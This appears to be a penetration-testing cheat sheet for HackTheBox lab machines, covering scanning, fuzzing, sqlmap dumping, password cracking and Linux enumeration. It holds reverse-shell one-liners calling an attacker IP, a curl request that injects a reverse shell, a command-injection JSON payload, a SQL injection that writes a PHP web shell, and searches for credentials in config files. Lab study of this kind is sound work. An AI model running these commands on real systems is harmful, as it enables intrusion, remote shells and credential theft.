 # nmap

 - `nmap -sV --open -p- 10.129.5.201`
 - `nmap -sC -sV -p 22,80,8065 10.129.5.201`
 - `nmap --script=vuln -sV -p 22,80,8065 10.129.5.201`
 - `sudo nmap -sV -sU -p- --min-rate 5000 10.129.5.201`
 - `sudo nmap -sU -p 161 -sV 10.129.5.201`

# Update /etc/hosts file

 - `echo "10.129.5.201 academy.htb" | sudo tee -a /etc/hosts`

# ffuf

> After running the following, you want to filter out noise using the -fl option 

 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ`
 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ -e .php,.html,.txt`
 - `ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://academy.htb/ -H "Host: FUZZ.academy.htb"`

# sqlmap

 - `sqlmap -r request --batch`
 - `sqlmap -r request --second-url "http://10.129.95.235/account.php"`
   - We use the second url paramater for when the output is stored in a different url

### Useful options

 - `--dbs` 
   - enumerate the database
 - `-D <db_name> --tables` 
   - enumerate the tables
 - `-D <db_name> -T <table_name> --columns` 
   - enumerate the columns in a table
 - `-D <database_name> --dump-all`
   - dump the entire database

# SQL Stuff

 - `psql -h 127.0.0.1 -U postgres -p`
 - `mysql -u <user> -p`
 - `Brazil' UNION SELECT "<?php SYSTEM $_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -`
   - This is used to drop a web shell when you can do a UNION injection and is a PHP app

# curl

 - `curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=27mmajj85si451dmcbtin048j9" | jq`
 - `curl -sv -X POST http://academy.htb/home.php --cookie "PHPSESSID=1i52bbppla8d5tn8uguvrh3g75" -H 'Content-Type: application/json' --data '{"module_id": "1; id"}'`
 - `curl http://10.129.95.235/test.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.148/4242 0>&1"'`

# Shells

 - `bash -i >& /dev/tcp/10.10.14.148/4242 0>&1`
 - `echo "bash -i >& /dev/tcp/10.10.14.15/4242 0>&1" | base64 -w 0`
 - `Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- -`
   - SQL injection to write a file to create a web shell

# nc

 - `nc -nvlp 4242`

# Stabilizing Shells

 1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 2. `ctrl+z`
 3. `stty raw -echo; fg`
 4. `export TERM=xterm`

# Password Cracking

 - `john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

# snmpwalk

 - `snmpwalk -v1 10.129.155.174:161 -c public`

# grep

 - `grep "*sh$" /etc/passwd`

# Linux Environment Enumeration

 - `whoami`
   - What user are we running as
 - `id`
   - What groups does the user belong to
 - `hostname`
   - What is the server named, can we gather anything from the naming convention
 - `ifconfig`
   - What subnet are we on
 - `sudo -l`
   - Can we run anything with sudo
 - `cat /etc/os-release`
   - Get the OS and release version
 - `echo $PATH`
   - Check to see if the path is misconfigured
 - `env`
   - Check to see if there are any secrets in the environment variables
 - `uname -a`
   - Get the Kernel version to see if there are any exploits we can take advantage of
 - `lscpu`
   - Get CPU type and version
 - `cat /etc/shells`
   - Get the login shells that exist on the server
   - tmux and screen are notable ones you can exploit
 - Check for defenses in place, some notable ones include
   1. Exec Sheild
   2. iptablse
   3. AppArmor
   4. SELinux
   5. Fail2ban
   6. Snort
   7. Uncomplicated Firewall (ufw)
 - `lsblk`
   - Enumerates info about block devices on the system (hard disks, USB drives, etc.)
   - If we discover and can mount an additional drive or unmounted file system they might contain sensitive info
 - `lpstat`
   - Find info about printers attached to the system
 - `cat /etc/fstab`
   - Checks for mounted and unmounted drives
 - `route`
   - See what other networks are available via which interface
 - `cat /etc/resolv.conf`
   - Do this if we re in a domain env - can use this as a starting point to query the AD env
 - `arp -a`
   - Shows the arp table which details what other hosts the target has been communicating with
 - `cat /etc/passwd`
   1. Username
   2. Password
   3. User ID (UID)
   4. Group ID (GID)
   5. User ID info
   6. Home dir
   7. Shell
 - `getent group sudo`
   - List members that are a part of a group that has access to sudo
 - Check `/home`
   - `.bach_history`
   - SSH keys
   - Cred files
 - `find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null`
   - Find .config files
 - `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`
   - Find all config files
 - `find / -readable -exec grep -H root '{}' \; 2>/dev/null | grep password`
